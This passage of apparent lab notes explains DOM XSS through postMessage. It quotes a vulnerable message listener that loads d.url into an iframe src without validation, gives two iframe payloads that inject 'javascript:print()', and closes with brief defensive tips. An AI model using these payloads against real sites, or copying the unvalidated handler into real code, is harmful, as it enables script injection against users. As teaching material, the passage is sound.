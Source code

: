 This can be exploited by crafting an exploit server that posts a message to the vulnerable site through an iframe with the URL being a JavaScript function.
```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

This website also contains vulnerable code that uses `JSON.parse` to parse a string from the message.
```javascript
<script>
	window.addEventListener('message', function(e) {
		var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
		document.body.appendChild(iframe);
		try {
			d = JSON.parse(e.data);
		} catch(e) {
			return;
		}
		switch(d.type) {
			case "page-load":
				ACMEplayer.element.scrollIntoView();
				break;
			case "load-channel":
				ACMEplayer.element.src = d.url;
				break;
			case "player-height-changed":
				ACMEplayer.element.style.width = d.width + "px";
				ACMEplayer.element.style.height = d.height + "px";
				break;
		}
	}, false);
</script>
```

This can be exploited by sending a string as JSON that exploits the generated iframe's `src`. This will place the `javascript:print()` function into the iframe's `src`, allowing arbitrary code execution.
``` javascript
<head>
	<style>
		#target {
			width: 100%;
			height: 100%;
			box-sizing: border-box;
			}
	</style>
</head>
<iframe id="target" src="https://vulnerable-site.com" frameborder="0" onload='this.contentWindow.postMessage("{\"type\": \"load-channel\", \"url\": \"javascript:print()\"}", "*")'>
```
##### ***Angular***
##### ***Template injection***
https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs
##### ***How to Defend Against DOM XSS***
- ***Input Sanitation***: Ensure that all user inputs are properly sanitized before being processed.
- ***Content Security Policy (CSP)***: Implementing CSP can prevent the execution of unauthorized scripts.
- ***Regular Security Audits***: Regularly review and test your application to identify and fix potential vulnerabilities.

